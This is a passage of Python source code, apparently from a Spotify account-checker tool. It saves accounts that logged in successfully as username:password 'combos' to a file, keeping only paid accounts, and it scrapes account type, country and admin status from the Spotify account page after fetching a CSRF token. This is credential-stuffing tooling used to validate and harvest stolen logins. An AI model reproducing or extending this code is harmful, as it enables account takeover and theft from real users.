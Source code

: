         self.extension = ".txt"

        self.sep = "<--------Account-------->\n"

        colors.info("Saving as TXT in {}{}".format(self.file, self.extension))

        try:
            with open(self.file+self.extension, "a") as output_:
                for account in accounts:
                    if account.get("account_login") == "success":
                        if account.get("AccountType") != "Spotify Free":
                            output_.write(self.sep)
                            output_.write("Username: {}\n".format(account["Username"]))
                            output_.write("Password: {}\n".format(account["Password"]))
                            output_.write("As Combo: {}:{}\n".format(account["Username"], account["Password"]))
                            output_.write("Account Type: {}\n".format(account["AccountType"]))
                            output_.write("Country: {}\n".format(account["Country"]))
                            output_.write("Admin: {}\n".format(account["Admin"]))
                output_.close()
            colors.correct("Done! All saved successfully")
        except Exception as e:
            colors.error(str(e))
            _exit(1)

    def Save(self, accounts):

        if self.type == "txt":
            self.Save_txt(accounts)
        elif self.type == "json":
            self.Save_json(accounts)
        elif self.type == "xml":
            self.Save_xml(accounts)
        elif self.type == "html":
            self.Save_html(accounts)

class Spotify(object):
    def getCSRFtoken(self):
        while True:
            csrf_request = requests.get('https://accounts.spotify.com')
            if csrf_request.status_code == 200:
                break
        return csrf_request.cookies.get("csrf_token")

    def getAccountInfo(self, Session, email, password):
        while True:
            response = Session.get('https://www.spotify.com/de/account/overview/')
            if response.status_code == 200:
                break
        data = response.text

        parser = BeautifulSoup(data, "lxml")

        account_type = parser.find("h3", attrs={"class" : "product-name"}).text
        country = parser.find("p", attrs={"class" : "form-control-static", "id" : "card-profile-country"}).text
        admin = None
